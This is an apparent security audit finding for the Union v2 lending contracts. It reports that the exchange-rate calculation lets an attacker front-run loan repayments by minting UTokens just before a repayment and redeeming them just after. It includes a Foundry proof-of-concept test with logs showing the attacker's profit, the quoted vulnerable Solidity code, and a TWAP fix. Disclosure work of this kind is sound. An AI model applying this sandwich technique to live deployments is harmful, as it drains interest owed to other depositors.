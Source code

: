 ozoooneth

false

# The `exchangeRateStored()` function allows front-running on repayments

## Summary

The `exchangeRateStored()` function allows to perform front-running attacks when a repayment is being executed.  

## Vulnerability Detail

Since `_repayBorrowFresh()` increases `totalRedeemable` value which affects in the final exchange rate calculation used in functions such as `mint()` and `redeem()`, an attacker could perform a front-run to any repayment by minting `UTokens` beforehand, and redeem these tokens after the front-run repayment. In this situation, the attacker would always be obtaining profits since `totalRedeemable` value is increased after every repayment.

### Proof of Concept

```solidity
    function increaseTotalSupply(uint256 _amount) private {
        daiMock.mint(address(this), _amount);
        daiMock.approve(address(uToken), _amount);
        uToken.mint(_amount);
    }

    function testMintRedeemSandwich() public {
        increaseTotalSupply(50 ether);

        vm.prank(ALICE);
        uToken.borrow(ALICE, 50 ether);
        uint256 borrowed = uToken.borrowBalanceView(ALICE);

        vm.roll(block.number + 500);

        vm.startPrank(BOB);
        daiMock.approve(address(uToken), 100 ether);
        uToken.mint(100 ether);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] BOB balance:", uToken.balanceOf(BOB));
        console.log("[DAI]    BOB balance:", daiMock.balanceOf(BOB));

        uint256 currExchangeRate = uToken.exchangeRateStored();
        console.log("[1] Exchange rate:", currExchangeRate);
        vm.stopPrank();

        vm.startPrank(ALICE);
        uint256 interest = uToken.calculatingInterest(ALICE);
        uint256 repayAmount = borrowed + interest;

        daiMock.approve(address(uToken), repayAmount);
        uToken.repayBorrow(ALICE, repayAmount);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] ALICE balance:", uToken.balanceOf(ALICE));
        console.log("[DAI]    ALICE balance:", daiMock.balanceOf(ALICE));

        currExchangeRate = uToken.exchangeRateStored();
        console.log("[2] Exchange rate:", currExchangeRate);
        vm.stopPrank();

        vm.startPrank(BOB);
        uToken.redeem(uToken.balanceOf(BOB), 0);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] BOB balance:", uToken.balanceOf(BOB));
        console.log("[DAI]    BOB balance:", daiMock.balanceOf(BOB));

        currExchangeRate = uToken.exchangeRateStored();
        console.log("[3] Exchange rate:", currExchangeRate);
    }
```

### Result

```bash
[PASS] testMintRedeemSandwich() (gas: 560119)
Logs:

  [UToken] Total supply: 150000000000000000000
  [UToken] BOB balance: 100000000000000000000
  [DAI]    BOB balance: 0
  [1] Exchange rate: 1000000000000000000

  [UToken] Total supply: 150000000000000000000
  [UToken] ALICE balance: 0
  [DAI]    ALICE balance: 99474750000000000000
  [2] Exchange rate: 1000084166666666666

  [UToken] Total supply: 50000000000000000000
  [UToken] BOB balance: 0
  [DAI]    BOB balance: 100008416666666666600
  [3] Exchange rate: 1000084166666666668
```

## Impact

An attacker could always get profits from front-running repayments by taking advantage of `exchangeRateStored()` calculation before a repayment is made.

## Code Snippet

[exchangeRateStored()](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L467-L470)

```solidity
function exchangeRateStored() public view returns (uint256) {
    uint256 totalSupply_ = totalSupply();
    return totalSupply_ == 0 ? initialExchangeRateMantissa : (totalRedeemable * WAD) / totalSupply_;
}
```

[_repayBorrowFresh()](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L657)

```solidity
function _repayBorrowFresh(address payer, address borrower, uint256 amount, uint256 interest) internal {
    if (getBlockNumber() != accrualBlockNumber) revert AccrueBlockParity();
    uint256 borrowedAmount = borrowBalanceStoredInternal(borrower);
    uint256 repayAmount = amount > borrowedAmount ? borrowedAmount : amount;
    if (repayAmount == 0) revert AmountZero();

    uint256 toReserveAmount;
    uint256 toRedeemableAmount;

    if (repayAmount >= interest) {
        // If the repayment amount is greater than the interest (min payment)
        bool isOverdue = checkIsOverdue(borrower);

        // Interest is split between the reserves and the uToken minters based on
        // the reserveFactorMantissa When set to WAD all the interest is paid to teh reserves.
        // any interest that isn't sent to the reserves is added to the redeemable amount
        // and can be redeemed by uToken minters.
        toReserveAmount = (interest * reserveFactorMantissa) / WAD;
        toRedeemableAmount = interest - toReserveAmount;

        // Update the total borrows to reduce by the amount of principal that has
        // been paid off
        totalBorrows -= (repayAmount - interest);

        // Update the account borrows to reflect the repayment
        accountBorrows[borrower].principal = borrowedAmount - repayAmount;
        accountBorrows[borrower].interest = 0;

        // Call update locked on the userManager to lock this borrowers stakers. This function
        // will revert if the account does not have enough vouchers to cover the repay amount. ie
        // the borrower is trying to repay more than is locked (owed)
        IUserManager(userManager).updateLocked(borrower, (repayAmount - interest).toUint96(), false);

        if (isOverdue) {
            // For borrowers that are paying back overdue balances we need to update their
            // frozen balance and the global total frozen balance on the UserManager
            IUserManager(userManager).onRepayBorrow(borrower);
        }

        if (getBorrowed(borrower) == 0) {
            // If the principal is now 0 we can reset the last repaid block to 0.
            // which indicates that the borrower has no outstanding loans.
            accountBorrows[borrower].lastRepay = 0;
        } else {
            // Save the current block number as last repaid
            accountBorrows[borrower].lastRepay = getBlockNumber();
        }
    } else {
        // For repayments that don't pay off the minimum we just need to adjust the
        // global balances and reduce the amount of interest accrued for the borrower
        toReserveAmount = (repayAmount * reserveFactorMantissa) / WAD;
        toRedeemableAmount = repayAmount - toReserveAmount;
        accountBorrows[borrower].interest = interest - repayAmount;
    }

    totalReserves += toReserveAmount;
    totalRedeemable += toRedeemableAmount;

    accountBorrows[borrower].interestIndex = borrowIndex;

    // Transfer underlying token that have been repaid and then deposit
    // then in the asset manager so they can be distributed between the
    // underlying money markets
    IERC20Upgradeable(underlying).safeTransferFrom(payer, address(this), repayAmount);
    _depositToAssetManager(repayAmount);

    emit LogRepay(payer, borrower, repayAmount);
}
```

[Usage in `mint()` function](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L714)

[Usage in `redeem()` function](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L742)

## Tool used

Manual Review

## Recommendation

An approach could be implementing TWAP in order to make front-running unprofitable in this situation.